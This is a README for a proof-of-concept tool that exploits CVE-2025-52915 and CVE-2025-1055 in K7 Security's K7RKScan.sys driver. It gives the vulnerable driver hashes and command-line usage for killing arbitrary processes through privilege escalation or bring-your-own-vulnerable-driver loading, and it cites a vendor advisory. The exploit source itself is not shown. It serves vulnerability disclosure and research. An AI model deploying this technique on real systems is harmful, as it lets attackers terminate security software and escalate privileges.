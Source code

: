 # K7Terminator
- PoC for **CVE-2025-52915 & CVE-2025-1055** in **K7RKScan.sys** (K7 Ultimate Security)
- Affects:
  - **Legacy builds (15.1.0.6–7)** -> low-privilege abuse
  - **Current build (23.0.0.10)** -> admin/BYOVD abuse
- **[Vendor advisory issued](https://support.k7computing.com/index.php?/solutions/view-article/Advisory-issued-on-2nd-Sep-2025)**
- Full write-up & details: **[CVE-2025-52915: A BYOVD Evolution Story](https://blacksnufkin.github.io/posts/)**

**Driver hashes:**
- `K7RKScan.sys` **15.1.0.6** SHA256: `B16E217CDCA19E00C1B68BDFB28EAD53B20ADEABD6EDCD91542F9FBF48942877`
- `K7RKScan.sys` **23.0.0.10** SHA256: `5C6CE55A85F5D4640BD1485A72D0812BC4F5188EE966C5FE334248A7175D9040`

---

**Usage**

Place the vulnerable `K7RKScan.sys` in the same folder as the executable.  
Provide a **process name** or **PID**.  
(The file must be named `K7RKScan.sys`.)

```
K7RKScan Process Terminator - LPE + BYOVD (CVE-2025-52915) PoC

Usage: K7Terminator.exe [OPTIONS] --mode <mode>

Options:
  -m, --mode <mode>      lpe (wait for service) or byovd (load driver) [possible values: lpe, byovd]
  -p, --pid <pid>        Target process ID
  -n, --name <name>      Target process name(s)
  -l, --looper           Keep targeting processes
  -d, --driver <driver>  Driver path (default: ./K7RKScan.sys)
  -h, --help             Print help
  -V, --version          Print version

EXAMPLES:
  K7Terminator.exe -m lpe -n notepad.exe
  K7Terminator.exe -m byovd -p 1234
```
